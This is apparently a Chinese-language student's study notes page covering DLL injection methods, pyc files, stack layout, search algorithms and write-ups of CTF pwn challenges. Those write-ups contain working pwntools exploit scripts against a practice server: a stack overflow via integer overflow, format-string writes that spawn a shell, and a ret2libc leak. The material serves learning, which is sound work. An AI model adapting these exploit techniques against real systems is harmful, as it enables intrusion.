 ```yaml
---
title: 8.20--9.04
abbrlink: 17205
hidden: true
date: 2020-08-20 15:00:30
---
```


## DLL注入
DLL是一种模块共享和重用机制，可以被加载到其他进程中间执行。DLL注入目标进程不仅避免跨进程操作带来的繁琐过程，还可以直接执行自己的代码，进行hook、patch等操作   
### DLL注入方法
加载dll有三个时机：
1. 在进程创建阶段加载输入表中的dll（即静态输入）
2. 通过调用LoadLibrary(Ex)主动加载（动态加载）
3. 系统机制要求加载基础服务模块（如shell扩展模块、网络服务接口模块等）

#### 通过干预输入表处理过程加载目标dll
进程创建阶段会进行处理并加载输入表中的DLL模块。   
首先执行的是ntdll.dll中的函数，进行初始化，再加载输入表中的模块，并填充应用程序的IAT。因此只要输入表被处理前进行干预，为输入表增加一个项目，指向要加载的目标dll，或者替换原输入表中的dll，那么新进程的主线程在输入表初始化阶段就会主动加载目标dll    

#### 改变程序运行流程使其主动加载目标dll
程序运行的容器是进程，真正活动的是其中的线程。改变流程的做法通常是改变eip、创建新线程或修改目标进程内的代码，使其执行LoadLibrary(Ex)来加载目标dll


## python程序的执行过程
### 解释型语言和编译型语言
运行高级语言写成的程序时，需要通过*编译*或者*解释*，把高级语言转变成机器语言    
编译型语言在程序执行前，会通过编译器对代码进行编译，把代码变成机器语言的文件（如.exe），以后可以直接执行   
解释型语言把源代码翻译成中间代码，运行时再由解释器对中间代码进行解释运行

### PyCodeObject和pyc
python程序的**编译**结果位于PyCodeObject，当程序运行结束时解释器将PyCodeObject写到pyc文件中，程序第二次运行时，会在硬盘中寻找pyc文件，如果找到就可以直接载入。

>pyc文件是PyCodeObject在硬盘上的表现形式

python解释器只把可能重用到的模块持久化成pyc文件，并认为只有import进来的模块才是需要被重用的

### pyc
pyc文件也称为字节码文件     
一个pyc文件包含了：magic number、pyc文件创建时间、PyCodeObject   



参考：
1. https://www.cnblogs.com/guoyuanping/p/10524098.html
2. https://www.cnblogs.com/restran/p/4903056.html





## 逆向工程核心原理
### 栈
栈通常用于储存局部变量、传递函数参数、保存函数返回地址等    
栈由高地址向低地址扩展   


## 啊哈算法
### 深度优先搜索
基本模型：
```c++
void dfs(int step){
    判断边界;
    /*尝试每一种可能*/ for(i=1;i<=n;i++){

        /*下一步*/dfs(step+1)
    }
    return;
}
```
一直朝一边尝试，直到不通再返回尝试另一边。可以通过递归实现
### 广度优先搜索
记录每个点四周可以走到的点，并放进队列，判断完一个点后将点出队，直到达到“出口”



### int_overflow

用ida打开程序之后可以看到正常运行时的这几个函数    

其中login()里的buf和check_passwd()似乎有点问题。
在函数窗口还发现了一个函数“what_is_this”，打开之后发现这个函数执行之后直接"cat flag"了，应该就是我们栈溢出之后跳转的目标

看一下check的过程。先把s（即之前输入的buf）的长度赋给v3，检验v3的长度是否在3~8，然后最关键的来了：
>result = strcpy(&dest,s)

因此要做的就是在strcpy的时候把返回的地址覆盖为“what_is_this”的地址   
dest所在的栈长这样：
所以我们要从0x14一直覆盖到返回地址（共0x18个字节），然后把返回地址覆盖为0x0804868B   
“可是这样长度就超过8了哎...”   
我们注意到v3的类型是无符号int8，范围从0~2^8-1(即255)，而buf读入的长度为0x199（dec-409），可以通过整数溢出的方式，在返回地址后面再输入一些字符，使buf的长度在3~8之间

```py
from pwn import *
p = remote("220.249.52.133", 56818)
p.recv()
p.sendline("1")
p.recv()
p.sendline("111")
p.recv()
a = "1"*0x18 + p32(0x0804868B) + '1'* 232
p.sendline(a)
p.interactive()
```
[PWN——那些年坑过我们的数据类型](https://www.anquanke.com/post/id/173063)


### string
参考：
https://veritas501.space/2017/04/28/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/
http://blog.iyzyi.com/index.php/archives/557/#0x02CGfsb
https://introspelliam.github.io/2017/08/04/printf%E6%A0%BC%E5%BC%8F%E5%8C%96%E6%BC%8F%E6%B4%9E/
```py
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p = remote("220.249.52.133", 30800)
p.recvuntil('secret[0] is ')
a = int(p.recvuntil('\n'), 16)
p.sendlineafter("character's name be:", 'aaa')
p.sendlineafter("up?:", "east")
p.sendlineafter("or leave(0)?:", '1')
p.sendlineafter("address", str(a))
# p.sendlineafter("And, you wish is:", 'aaaa'+'-%p'*10)
p.sendlineafter("And, you wish is:", '%85c%7$n')
# p.recvuntil('I hear it')
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```


### CGfsb

```py
from pwn import *
# context(os='linux',arch='amd64',log_level='debug')
p = remote("220.249.52.133", 49459)
p.recv()
p.sendline("111")
p.recv()
a = p32(0x0804A068) + '1111' + '%10$n'
p.sendline(a)
p.recv()
#a = "1"*0x228 + "1"*0x4 + p32(0x0804868B)
#p.sendline(a)
p.interactive()
```
参考：https://wiki.x10sec.org/pwn/fmtstr/fmtstr_exploit/

### cgpwn2


```py
from pwn import *
p = remote("220.249.52.133", 39614)
elf = ELF("level3")
p.recv()
a = '1'*0x88 + '4'*4 + p32(elf.plt['write']) + p32(0x0804844B) + p32(1) + p32(elf.got['write']) + p32(10)
p.sendline(a)
addr = u32(p.recv()[:4])
payload = '0'*0x8c + p32(addr-0x99a80) + '1'*4 + p32(addr+0x84c6b)
p.sendline(payload)
p.interactive()
```